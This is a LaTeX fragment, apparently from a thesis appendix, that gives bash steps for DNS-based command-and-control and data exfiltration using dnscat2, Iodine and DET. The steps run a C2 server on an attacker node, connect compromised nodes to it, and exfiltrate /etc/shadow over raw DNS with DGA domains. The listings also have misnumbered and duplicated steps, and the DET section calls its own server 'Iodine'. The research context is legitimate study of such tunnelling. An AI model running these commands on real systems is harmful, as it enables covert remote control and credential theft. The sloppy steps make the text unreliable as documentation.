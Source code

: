 \documentclass [11pt, proquest] {uwthesis}[2020/02/24]
\begin{document}
\begin{lstlisting}[language=bash,caption={Steps to use Dnscat2 for Dns C2 with DNS port obfuscation layered random UDP port},label={lst:dnscat2-steps-port-obfuscation}]
# 1. Start Dnscat2 C2 server on attacker node with port obfuscation, DNS protocol itself tunnelled over random UDP port with internally tunnelling any protocol payload
sudo ruby dnscat2.rb --dns 'host=<attacker_node>,port=<dns_overlay_udp_port>,domain=<c2_domain>'
# 2. Connect to dnscat c2 server from compromised node in data plan
./dnscat --dns server=<attacker_node>=<dns_overlay_udp_port>,domain=dnscat.strive.io --secret=<c2_session_secret>
# 6 carry all the c2 attacks once compromised node is connected to C2 server.
\end{lstlisting}


\subsubsection{Iodine}
Iodine documentation for building the Iodine tunnel server server and client can be found on official documentation page at \href{https://github.com/yarrick/iodine}{Github}
\begin{lstlisting}[language=bash,caption={Steps to use Iodine for Dns tunnelling using kernel encapsulation POINTTOPOINT TUN/TAP links},label={lst:iodine-steps}]
# 1. Start iodine tunneling server 
sudo iodined -f -P <password> <TUN/TAP_overlay_CIDR> <tunnel_domain>
# 2. Verify the required TUN/TAP pointtopoint netdev link created, defaults to dns0 
ip addr show dev dns0 
# 3. On compromised node in data plane start the iodine client 
sudo iodine -P <password> -f  -r <tunnel_server> <tunnel_domain>
# 4 Verify the required TUN/TAP pointtopoint netdev link created in CIDR range default to <TUN/TAP_overlay_CIDR>/24
ip addr show dev dns0
# Tunnel any protocol payload through the compromised node encpasulated traffic passed through PPP TUN/TAP links on both systems.
\end{lstlisting}

\subsubsection{DET}
DET documentation for building the Iodine Tunnel Server Server and Client can be found on the official documentation page at \href{https://github.com/sensepost/DET}{Github}
\begin{lstlisting}[language=bash,caption={Steps to use DET for raw DNS exfiltration},label={lst:det-steps}]
# 1. Configure the DNS module in config.json in DET for raw exfiltration, with any domain generated via DGA, and IP pointing to the DNS server.
# 2. Start the DET server
sudo python det.py -L -c ./config.json -p dns 
# 3. Configure the DNS module in config.json in DET for raw exfiltration, with any domain generated via DGA, and IP pointing to the DNS server.
python det.py -c ./config.json -f /etc/shadow
3 4. restart the script and continue to exfiltrate files via raw DNS exfiltration. 
\end{lstlisting}
\end{document}
